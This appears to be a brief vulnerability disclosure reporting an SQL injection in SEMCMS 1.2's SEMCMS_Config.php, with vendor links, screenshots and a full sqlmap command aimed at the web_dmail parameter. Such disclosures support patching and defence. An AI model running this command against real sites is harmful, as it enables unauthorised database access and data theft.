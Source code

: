 * Exploit Title: SENMCMS 1.2 -  SQL injection

* Vendor Homepage:http://www.sem-cms.com

* Software Link:http://www.sem-cms.com/xiazai.html

* Version: 1.2

* Vulnerable file:SEMCMS_Config.php 
![iamge](https://github.com/BigTiger2020/SEMCMS/blob/main/SEMCMS_Config.php.png)  
* SQL injection
sql command:sqlmap.py -r 8.txt --dbms=mysql --level=3 --risk=3 -p web_dmail --tamper=space2comment --random-agent  

![iamge](https://github.com/BigTiger2020/SEMCMS/blob/main/sql-1.png)  
